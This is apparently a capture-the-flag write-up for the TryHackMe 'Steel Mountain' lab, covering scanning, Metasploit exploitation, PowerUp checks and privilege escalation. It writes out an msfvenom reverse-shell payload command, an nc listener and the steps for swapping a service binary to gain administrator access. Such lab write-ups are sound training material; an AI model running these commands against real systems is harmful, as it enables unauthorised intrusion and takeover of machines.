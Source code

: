 # Write up for the tryhackme room: [steelmountain](https://tryhackme.com/room/steelmountain)

export ip=10.10.50.10
export hip=10.18.25.169

# recon and scanning

- `nmap -sC -sV -oN nmap.log $ip`


# process
- tried opening the ip in the browser and we can see the photo of the employee of the month. looking at the source code of the webpage we get the first flag
- from the nmap results, we see there are two webserver ports. but the second flag shows 4 *s in the answer input box, and that gives us the second flag.
- we can open the other webserver using the $ip:port to view the UI
- in the ui we have link to the company behind that webserver. adding that along with the name displayed in the webpage, we get the third flag
- searching this server name in exploit-db will get you the next flag
- using this information is quite easy to do the exploitation. I used metasploit as it is the easiest way.
- in the meterpreter shell, I cd'ed into the desktop of the employee of the month and got the next flag.
- downloading the [powerup](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) and uploading it next
- next load the powershell in meterpreter
  - `load powershell`
- then convert the current shell to a powershell by entering `powershell_shell`
- then execute the uploaded powerup script by entering below commands
  - `. .\PowerUp.ps1`
  - `Invoke-AllChecks`
- this gets us a service which has the permission to restart services on the system along with a writable application directory
- using msfvenom we can create a reverseshell payload which we can use to gain elevated access to the system.
  - `msfvenom -p windows/shell_reverse_tcp LHOST=10.18.25.169 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe`
  - in meterpreter type in `shell` and stop the `AdvancedSystemCareService9` service
    - `sc stop AdvancedSystemCareService9`
  - upload this file using meterpreter shell and then move it to the `C:\Program Files (x86)\IObit\Advanced SystemCare\`
  - start nc listener `nc -lnvp 4443`
  - replace the ASCService.exe with the uploaded file and then start the service again using `sc start AdvancedSystemCareService9`
  - doing this will get you administrator privilege in the nc listener you started.
  - going to the administrator's desktop you will get the next flag.